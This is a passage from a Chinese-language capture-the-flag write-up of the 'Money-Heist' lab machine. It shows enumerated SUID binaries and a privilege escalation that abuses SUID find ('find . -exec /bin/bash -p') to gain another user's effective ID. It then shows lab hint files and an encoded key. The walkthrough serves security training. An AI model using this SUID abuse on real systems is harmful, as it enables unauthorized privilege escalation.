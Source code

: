 ```
/sbin/mount.cifs
```

```
---s-ws--x 1 nairobi denver 73424 Feb 12  2016 /bin/sed
---s--s--x 1 denver denver 221768 Feb  8  2016 /usr/bin/find
```

通过 find 可以切换到 denver 用户：

```
arturo@Money-Heist:/home$ find . -exec /bin/bash -p \; -quit
$ id
uid=1002(arturo) gid=1002(arturo) euid=1003(denver) egid=1003(denver) groups=1003(denver),1002(arturo)
```

在 /home/denver 目录下，发现提示文件：

```
bash-4.3$ cat note.txt secret_diary

================================================================
Denver to others:

	DAMN it!!!! How Arturo gets the Phone ?
	I caught him when he tried to leak our identity in police headquater!!
	Now I keep him in other room !!

=================================================================



They all understimate me, mainly Nairobi and Tokyo,  they think only they can lead the team and I can't.
Tokyo is like Maserati you know. But I hate both of them,
Now I leave a thing on browser which should be secret, Now Nairobi will resposible for this...

/BankOfSp41n/0x987654/
```

根据提示 http://192.168.5.29/BankOfSp41n/0x987654/ 中有一个 key.txt 文件：

```
Don't trust anyone so quickly, until can see everything clearly!!!

.-.-.- .-.-.- / .-.-.- .-.-.- .-.-.- .-.-.- .-.-.- / / .-.-.- .-.-.- .-.-.- .-.-.- .-.-.- / .-.-.- / / .-.-.- / .-.-.- .-.-.- .-.-.- .-.-.- / / .-.-.- .-.-.- .-.-.- .-.-.- .-.-.- / .-.-.- / / .-.-.- / .-.-.- / / .-.-.- .-.-.- .-.-.- / .-.-.- .-.-.- .-.-.- / / .-.-.- .-.-.- / .-.-.- .-.-.- .-.-.- / / .-.-.- .-.-.- / .-.-.- .-.-.- .-.-.- / / .-.-.- / .-.-.- / / .-.-.- .-.-.- / .-.-.- .-.-.- .-.-.- .-.-.- .-.-.- / / .-.-.- .-.-.- .-.-.- / .-.-.- .-.-.- / / .-.-.- .-.-.- / .-.-.- / / .-.-.- / .-.-.- .-.-.- .-.-.- .-.-.- .-.-.- / / .-.-.- / .-.-.- .-.-.- .-.-.- .-.-.- .-.-.- / / .-.-.- .-.-.- .-.-.- / .-.-.- .-.-.- .-.-.- .-.-.- .-.-.- / / .-.-.- / .-.-.- .-.-.- .-.-.- / / .-.-.- .-.-.- .-.-.- / .-.-.- .-.-.- .-.-.- .-.-.- .-.-.-
```
